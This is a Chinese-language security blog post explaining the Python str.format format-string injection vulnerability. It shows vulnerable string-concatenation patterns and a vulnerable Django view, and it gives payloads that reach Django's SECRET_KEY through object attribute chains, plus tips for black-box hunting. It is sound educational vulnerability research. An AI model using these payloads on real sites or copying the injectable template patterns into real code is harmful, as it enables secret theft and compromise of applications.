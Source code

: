 Title:python格式化字符串漏洞实践
Date: 2018-01-22 10:20
Category: python安全
Tags: 漏洞实践,Python,格式化字符串漏洞
Slug: 
Authors: bit4
Summary: 

### 0x0、核心问题

如下面这个例子，从python2.6开始，就有了用format来格式化字符串的新特性，它可以通过{}来确定出字符串格式的位置和关键字参数，并且随时可以显式对数据项重新排序。此外，它甚至可以访问对象的属性和数据项——这是导致这里的安全问题的根本原因。

影响范围：Python 2.6及以后

```python
>>> print 'class of {0} is {0.__class__}'.format(42+1)
class of 43 is <type 'int'>
#可以看到，0.__class__获取到了输入对象（43）的类（int）。漏洞是建立在这个特性的基础之上的。
```

### 0x1、漏洞的必要条件

漏洞存在的必要条件是：可以控制字符串（一般是字符串拼接了用户的输入）

![insert_point](img/format_string_vuln/insert_point.png)

当然，要能正确利用，还需要保证控制的字符串语法的正确，即注入的对象名称必须和format参数传入的对象名称完全匹配。比如下面的例子：由于format传入的是"user=xxxx "，注入的字符串中，就必须是user.xxxx。

![对象正确](img/format_string_vuln/对象正确.png)



**实际代码中可能的字符串拼接方式有哪些呢？**

我能想到的：多次format  、利用加号的字符串拼接、利用%s的字符串拼接

```python
#多次format：  比如2次的情况，如果第一次被控制，将发生该漏洞
template = 'Hello {user}'
template = template.format(user ="{user.__class__}")#用户注入发生在这里
print template
print template.format(user="bit4")
```

![多次format](img/format_string_vuln/多次format.png)



```python
#用加号的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: ' + email
print template
print template.format(user="bit4")
```

![+字符串拼接](img/format_string_vuln/+字符串拼接.png)



```python
#利用%s的字符串拼接
email = "{user.__class__}" #用户注入的内容
template = 'Hello {user}, This is your email: %s' %email
print template
print template.format(user="bit4")
```

![%s字符串拼接](img/format_string_vuln/%s字符串拼接.png)



### 0x2、黑盒的思路

如果能看到代码，知道语句是怎么写的，当然容易构造出payload来注入到格式化字符串中，那么黑盒的时候，怎么办呢？phithon的文章中，给出了django中的一个例子。

```python
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))

然后给出的payload如下：
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}

{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.__groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

关于在黑盒的时候，如何成功挖掘该类漏洞，有几个关键问题：

Q：如何识别注入点？

A：如果识别不了，那就遍历所有可能的参数请求，



Q：如何找到一个可用的当前对象？

A：这一块好像没有很好的自动化方法，只有通过web的具体功能来猜测判断，比如，如果当前页面是用户登录后的欢迎页面，那么它很可能包含用户user对象，如果是展示展示一列订单，那么它很可能包含order对象.....等等



Q：是否存在一个通用对象呢？也就是每个请求中必然包含的对象是什么？或者一些框架或者web中常用的对象？

A：request对象应该算一个，但是实际的编程中几乎不会直接使用request对象。

​	至于有什么常用对象，目前回答不了...



Q：如何找到对象的可用属性？如何找到某个对象到系统敏感信息的对象属性链呢？

A：dir()函数可以查看某个对象的可用属性。

​	关于属性链，具体怎么查找还不清楚，但大致方向是，先通过当前属性，到达model等访问更广的全局属性（对象），从而再获取具体的属性。



参考：

https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html

http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/